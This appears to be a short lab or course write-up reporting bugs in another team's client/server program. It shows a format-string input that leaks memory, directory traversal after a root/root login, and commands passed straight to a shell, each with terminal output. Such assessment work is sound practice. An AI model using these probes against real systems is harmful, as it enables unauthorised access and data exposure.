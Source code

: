 ## Team 8


### Format string

* The format string vulnerability is on the client side when the client prints out where the program is trying to connect to.
The following exploit shows arbitrary read.

```
mc08 86 $ ./client %x%x%x%x 31337
Connecting to 005dbf42c05e2ef700 : 31337
inet_pton error occured
: Success
mc08 87 $
```


### Directory traversal

* There is no directory structure implemented and the client can traverse anywhere he wishes to.
```
$ login root
$ pass root
Welcome!
$ ls
client
server
sploit.conf
cd /u
$ ls
$ 
ls (null)
antor
data
scratch1
u12
u13
u24
u4
u6
u7
u90
u99
```

###   Command injection

* All commands are passed to shell?
```
$ login root
$ pass root
Welcome!
$ ps
  PID TTY          TIME CMD
23742 pts/4    00:00:00 bash
26886 pts/4    00:00:17 server
26893 pts/4    00:00:00 ps
rm
$ 
rm: missing operand
Try 'rm --help' for more information.
$ 

```
